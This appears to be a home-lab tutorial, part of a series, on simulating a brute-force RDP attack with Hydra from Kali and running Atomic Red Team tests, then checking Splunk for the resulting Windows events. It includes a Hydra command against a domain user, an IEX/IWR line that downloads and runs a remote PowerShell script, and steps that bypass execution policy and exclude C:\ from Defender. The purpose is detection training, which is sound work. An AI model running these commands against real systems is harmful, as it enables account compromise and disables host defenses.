

# Part 3: Brute Force Attack Simulation & Atomic Red Team Testing


### **🎯 Objectives**

1. Use **Kali Linux** to perform a **brute-force RDP attack** on a domain user.
2. Monitor attack logs in **Splunk**.
3. Install and run **Atomic Red Team** on a Windows 10 machine.
4. Validate log visibility and identify detection gaps.

---

## **Step 1: Configure Static IP on Kali Linux**

1. **Log into Kali Linux**

   * Default login: `kali` / `kali`

2. **Set a Static IP Address**

   * Click the **network icon** (top-right) → **Edit Connections**
   * Select **Wired Connection 1** → Click the **gear icon (⚙️)**
   * Go to **IPv4 Settings**
   * Change **Method** to `Manual` and enter:

     * **Address:** `192.168.0.194`
     * **Netmask:** `255.255.255.0`
     * **Gateway:** `192.168.0.1`
     * **DNS:** `8.8.8.8`
   * Click **Save** → **Close**


3. **Reconnect to Network**

   * Click the network icon → **Disconnect**
   * Click again → **Reconnect**

4. **Verify Connectivity**

   ```bash
   ip a              # Check assigned IP
   ping google.com   # Test internet access
   ping 192.168.0.114  # Ping Splunk server
   ```


---

## **Step 2: Prepare for Brute-Force Attack**

1. **Update Kali**

   ```bash
   sudo apt update && sudo apt upgrade -y
   ```

2. **Install Hydra**

   ```bash
   sudo apt install hydra -y
   ```

3. **Create a Password List**

   ```bash
   # Unzip the rockyou wordlist (commonly used for password cracking)
   sudo gunzip /usr/share/wordlists/rockyou.txt.gz

   # Create a project directory for the Active Directory project
   mkdir ~/Documents/Projects/ad-project-01

   # Copy the full rockyou.txt wordlist into the project directory
   cp /usr/share/wordlists/rockyou.txt ~/Documents/Projects/ad-project-01

   # Extract the first 20 passwords from the wordlist to create a smaller test list
   head -n20 ~/Documents/Projects/ad-project-01/rockyou.txt > ~/Documents/Projects/ad-project-01/passwords.txt
   ```


4. **Add the Correct Password (e.g., Passw0rd#0098)**

   ```bash
   nano ~/Documents/Projects/ad-project-01/passwords.txt
   ```

   * Add the password at the end
   * Save with **Ctrl+X → Y → Enter**


---

## **Step 3: Enable RDP on Windows 10 Target Machine**

1. Log in as **Administrator**
2. Open **System Properties**:

   * Search for **"PC"** → Click **"Advanced system settings"**
3. Go to the **Remote** tab

   * Enable: ✅ **Allow remote connections to this computer**
   * Click **Select Users** → **Add**:

     * `matrixlab.net\MThompson`
   * Click **OK** → **Apply**


---

## **Step 4: Launch Brute-Force Attack from Kali**

1. **Run Hydra**

   ```bash
   hydra -t 1 -V -f -l MThompson -P ~/Documents/Projects/ad-project-01/passwords.txt rdp://192.168.0.150
   ```

   * `hydra`: The tool used for performing brute-force attacks.
   * `-t 1`: Number of parallel tasks (here, 1 means only 1 connection at a time. This is safer for RDP to avoid account lockouts or detection.)
   * `-V`: Verbose mode - prints every login attempt Hydra tries.
   * `-f`: Stop after the first valid login — useful to avoid unnecessary brute-forcing once a password is found.
   * `-l MThompson`: Username
   * `-P ~/Documents/Projects/.../passwords.txt`: Path to password list
   * `rdp://192.168.0.150`: Target service and IP address

   Optional:
   ```bash
   hydra -l mthompson -P ~/Documents/Projects/ad-project-01/passwords.txt rdp://192.168.0.150
   ```




2. **Successful Login Output**

   ```
   [RDP] host: 192.168.0.150   login: MThompson   password: Passw0rd#0098
   ```


---

## **Step 5: Check Splunk for Attack Logs**

1. Open **Splunk Web** → Go to **Search & Reporting**

2. Run this search:

   ```spl
   index=endpoint "MThompson" earliest=-15m
   ```

3. Look for:

   * `Event ID 4625` – Failed logins (Brute-force evidence)
   * `Event ID 4624` – Successful login from attacker IP (`192.168.0.194`)


🔗 [Reference: Ultimate Windows Security Event ID List](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/default.aspx)


---

## **Step 6: Run Atomic Red Team Simulated Attacks**

1. **Open PowerShell as Administrator**

2. **Set Execution Policy**

   ```powershell
   Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
   ```

3. **Disable Defender Temporarily**

   * Open **Windows Security** → **Virus & Threat Protection** → **Manage Settings**
   * Under **Exclusions**, add: `C:\`


4. **Install Atomic Red Team**

   ```powershell
   IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing); Install-AtomicRedTeam -getAtomics
   ```


5. **Browse to Folder**

   * Folder created: `C:\AtomicRedTeam`
   * Visit [MITRE ATT\&CK Techniques](https://attack.mitre.org/)

---

### ✅ Example Atomic Tests

#### **Test 1: Create Local User (T1136.001)**

```powershell
Invoke-AtomicTest T1136.001
```

* Search Splunk for:

  ```spl
  index=endpoint "New Local User"
  ```


---

#### **Test 2: PowerShell Execution (T1059.001)**

```powershell
Invoke-AtomicTest T1059.001
```

* Search Splunk for:

  ```spl
  index=endpoint "bypass -NoProfile"
  ```


---

Tip:
if you facing any issue like path not correct while running Make sure you have Invoke-AtomicTest available by installing the Atomic Red Team PowerShell module:

```powershell
Install-Module -Name Invoke-AtomicRedTeam -Force
```

Then import it:

```powershell
Import-Module Invoke-AtomicRedTeam
```


## ✅ Final Notes & Wrap-Up

* Splunk visibility depends on **proper log collection** and **endpoint configuration**
* Atomic Red Team helps simulate **real-world MITRE ATT\&CK techniques**
* Take frequent snapshots to **revert broken systems**
* Watch for **Event ID gaps** and **test Splunk correlation rules**

🎉 **Congratulations!** You’ve completed Part 5 and finished your **Active Directory Red Team & Detection Lab**!

🔗 **MITRE ATT\&CK Framework**: [attack.mitre.org](https://attack.mitre.org)
🔗 **Atomic Red Team GitHub**: [github.com/redcanaryco/atomic-red-team](https://github.com/redcanaryco/atomic-red-team)

---
